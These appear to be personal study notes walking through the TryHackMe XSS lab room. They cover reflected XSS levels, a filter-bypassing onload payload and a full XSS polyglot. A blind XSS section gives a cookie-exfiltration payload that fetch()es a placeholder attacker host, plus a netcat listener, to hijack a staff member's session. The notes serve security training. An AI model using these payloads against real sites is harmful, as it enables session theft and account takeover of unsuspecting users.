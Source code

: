 ```yaml
---
URL: https://tryhackme.com/room/xss
---
```

## Perfecting your payload
### Level One:

You're presented with a form asking you to enter your name, and once you've entered your name, it will be presented on a line below, for example:

![[XSS L1 Web.png]]

If you view the Page Source, You'll see your name reflected in the code:

![[XSS L1 Source.png]]

Instead of entering your name, we're instead going to try entering the following JavaScript Payload: `<script>alert('THM');</script>`.

Now when you click the enter button, you'll get an alert popup with the string THM and the page source will look like the following:

![[XSS L1 THM.png]]

### Level Two:

Like the previous level, you're being asked again to enter your name. This time when clicking enter, your name is being reflected in an input tag instead:

![[XSS L2 Web.png]]

Viewing the page source, you can see your name reflected inside the value attribute of the input tag:

![[XSS L2 Source.png]]

It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we need to *escape the input tag* first so the payload can run properly. You can do this with the following payload: 
`"><script>alert('THM');</script>`

The important part of the payload is the `">` which closes the value parameter and then closes the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:

![[XSS L2 THM.png]]

### Level Six:

Similar to level two, where we had to escape from the value attribute of an input tag, we can try `"><script>alert('THM');</script>` , but that doesn't seem to work. Let's inspect the page source to see why that doesn't work.

![[XSS L6 Source.png]]

You can see that the `<` and `>` characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the `onload` event. The `onload` event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this `/images/cat.jpg" onload="alert('THM');` and then viewing the page source, and you'll see how this will work.

![[XSS L6 THM.png]]

### Polyglots

An XSS polyglot is a string of text which can *escape attributes, tags and bypass filters all in one*. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

## Practical Example (Blind XSS)

Create a support ticket by clicking the green Create Ticket button, enter the subject and content of just the word test and then click the blue Create Ticket button. You'll now notice your new ticket in the list with an id number which you can click to take you to your newly created ticket. 

Upon viewing the page source, we can see the text gets placed inside a textarea tag.

![[Blind XSS Prac.png]]

If we create another new ticket with the following payload: 
`</textarea><script>alert('THM');</script>` 

Now when we view the ticket, we get an alert box with the string THM. Expanding on this vulnerability we are going to *extract from another user their cookies*, which we could use to elevate our privileges by *hijacking their login session*. 

To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information.

Let’s set up a listening server using [[Netcat]]. If we want to listen on port `9001`, we issue the command `nc -l -p 9001`. 

The `-l` option indicates that we want to use Netcat in listen mode, while the 
`-p` option is used to specify the port number. 
To avoid the resolution of hostnames via DNS, we can add `-n`; 
moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended. 

The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

```javascript
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The` fetch()` command makes an HTTP request.
- `URL_OR_IP` is the IP address the data will be exfiltrated to.
- `PORT_NUMBER` is the port number we are running the netcat server on
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>` closes the JavaScript code block.

Now after we submit a support ticket with the above payload, when a staff member opens it, we should get their cookie on our Netcat server.

![[XSS Netcat catch.png]]

Then we can use a base64 decoder to decode it.
